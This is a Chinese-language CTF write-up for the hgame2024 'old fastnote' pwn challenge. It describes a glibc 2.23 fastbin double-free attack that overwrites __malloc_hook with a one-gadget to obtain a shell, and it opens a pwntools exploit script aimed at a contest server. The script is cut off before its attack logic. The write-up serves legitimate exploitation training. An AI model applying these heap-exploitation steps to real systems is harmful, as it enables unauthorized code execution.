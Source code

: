 ```yaml
---
title: hgame2024 week2 - old fastnote
date: 2024/2/16 19:36:00
updated: 2024/7/25 12:34:56
tags:
    - heap - fastbin
    - libc2.23
    - House of Spirit
thumbnail: /assets/hgame2024/bytecross.png
excerpt: 通过fastbin dup漏洞，利用glibc 2.23的mallocHook实现了任意代码执行，成功获取shell。
---
```


## 文件属性

|属性  |值    |
|------|------|
|Arch  |x64   |
|RELRO |Full  |
|Canary|on    |
|NX    |on    |
|PIE   |off   |
|strip |no    |

## 解题思路

glibc 2.23，tcache还没有，打fastbin dup，先分配0x80的chunk在unsorted bin拿libc，
然后依次释放010堆块double free，写地址为mallocHook，最后分配过去写OneGadget拿shell

一开始想用freeHook的，但是因为fastbin在分配的时候会检查chunk size，而freeHook周围都是0，
所以用不了；而mallocHook周围有libc地址，可以利用字节错位，分配一个有效的chunk

## 分配示意

<img src="/assets/hgame2024/bytecross.png" height="80%" width="80%">

颜色是后期涂的，很明显，字节错位的要求是含有`p64(libc地址)+p64(0)`才可以

{% note default fa-exclamation %}
图中的地址是打不通的，仅作示意；黄色部分是mallocHook
{% endnote %}

## EXPLOIT

```python
from pwn import *
context.terminal = ['tmux','splitw','-h']

def payload(lo:int):
    global sh
    if lo:
        sh = process('./oldfastnote')
        if lo & 2:
            gdb.attach(sh)
    else:
        sh = remote('106.14.57.14', 30281)
    elf = ELF('eldering')
    libc = ELF('./libc-2.23.so')
```
